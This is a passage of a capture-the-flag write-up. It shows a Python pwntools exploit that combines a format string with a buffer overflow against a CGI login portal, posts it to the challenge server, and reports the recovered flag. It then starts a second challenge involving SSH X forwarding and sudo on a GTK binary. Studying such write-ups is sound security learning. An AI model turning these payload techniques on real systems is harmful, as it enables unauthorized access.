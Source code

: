 {% highlight python %}
#!/usr/bin/env python3

import json
import os
import requests
import base64

from pwn import *

ADDR_LD_SO_STR = 0x00000000004002A8

# Login with "conflict processing: %s"
username = b'conflict processing\0'
password = b' %s\0' +  b'A'*(256-len(username)-4) + b'B'*4 + p64(ADDR_LD_SO_STR)
payload = json.dumps({'user':base64.b64encode(username).decode('ascii'), 'pass':base64.b64encode(password).decode('ascii')})

# Local test
env = os.environ.copy()
env['CONTENT_LENGTH'] = str(len(payload))
env['REQUEST_METHOD'] = 'POST'
env['FLAG'] = 'FAKE_FLAG'
r = process('cgi-bin/portal.cgi', env=env, level='info')
pause()
r.sendline(payload)
r.interactive()

# Execute exploit
BASE_URL = 'https://authportal.challenges.adversary.zone:8880'
r = requests.post(BASE_URL + '/cgi-bin/portal.cgi', json={'user':base64.b64encode(username), 'pass':base64.b64encode(password)})
print(r.text)
{% endhighlight %}

Running it gives us the flag: `CS{w3b_vPn_h4xx}`.

### Dactyl's Tule Box

Here we are given an image and a server where that image is running. We can login in to the server with an SSH key we are given. On the server there is a GTK binary "/usr/local/bin/mapviewer". We can also find that X forwarding is enabled on the server by looking at the sshd configuration. To be able to run the program at all, we connect to the server with X forwarding on our SSH client:

{% highlight bash %}
$ ssh -X -i customer01.pem customer01@maps-as-a-service.challenges.adversary.zone -p 4141
$ /usr/local/bin/mapviewer
{% endhighlight %}

We are allowed to run this program as root with sudo but for this to work we need to specify the Xauthority:
